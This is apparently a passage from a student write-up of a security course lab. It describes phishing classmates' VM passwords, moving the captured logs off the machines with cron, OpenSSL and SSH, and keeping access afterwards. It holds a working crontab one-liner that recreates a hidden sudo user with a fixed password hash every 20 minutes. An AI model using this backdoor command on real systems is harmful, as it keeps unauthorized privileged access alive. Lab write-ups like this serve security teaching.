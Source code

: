 As we managed to compile the server, we were facing another challenge - to get the found passwords from the victim VM to our VM without possibly exposing the found passwords.
Our solution to this problem was... a bit more complicated than it could be. Still, we were lazy and tried not to modify the application itself, so we rather bent the environment the server was running in. We basically used the [Cron](https://en.wikipedia.org/wiki/Cron) and [OpenSSL](https://www.openssl.org/) to encrypt, transfer and decrypt the logs.

The server (on a victim's machine) was producing logs in the plaintext. On the victim's machine, we set up a [cron job](https://github.com/LukasForst/BSY/blob/4fe069dd9e9d39533c15a645627e23148ac8be05/hacks/victim_our.sh#L6), which periodically used OpenSSL to encrypt the logs and to clear the plaintext one. Then the [script](https://github.com/LukasForst/BSY/tree/master/hacks/encryption) running on our VM just picked up the encrypted logs and copied them via SSH to our machine, where the logs were decrypted. 

### Defending the access
Unfortunately, as our password database grew, we were discovered by the teachers.
```
Hi list!

While you do the second assignment, be careful of some fake ports out there!
Never give your password to anyone!

The real assignment do not asks for any password.

Those machines are full of hackers!!

Sebas
```

*The funny thing is that even after this e-mail warning sent to the whole class, we got new password match and therefore new VM to our collection*

We had to ensure that the machines we were operating, stays under our control. As we had the access via a new user `default`, we decided to use (again, not very bright solution, but it gets the work done) the [cron](https://github.com/LukasForst/BSY/blob/c14a40c13504a4fd46d12524f82ed218122c82f9/hacks/victim_our.sh#L8) with this magnificent command.
```bash
(crontab -l 2>/dev/null; echo "*/20 * * * * if [ \$(grep -c '^default:' /etc/passwd) -eq 0 ]; then useradd -m -p p0j1kHlO8H0mE -s /bin/bash default && usermod -aG sudo default; fi") | crontab -
```
What it does is that it checks every 20 minutes that the user with name `default` does exist, and if not, it creates it with our hashed password.

### Summary
By using relatively simple and naive social engineering and phishing techniques, we were able to gain access to 9 virtual machines. The total headcount is then following:

|                                                           | Count|
| -------------                                             |:-------------:|
| Number of students VMs in the network                     | 29
| Unique IPs connecting to our service                      | 12
| Number of students that gave us password                  | 9
| Number of actually hacked machines                        | 7
| Number of VMs with gained access at the end of the course | 3
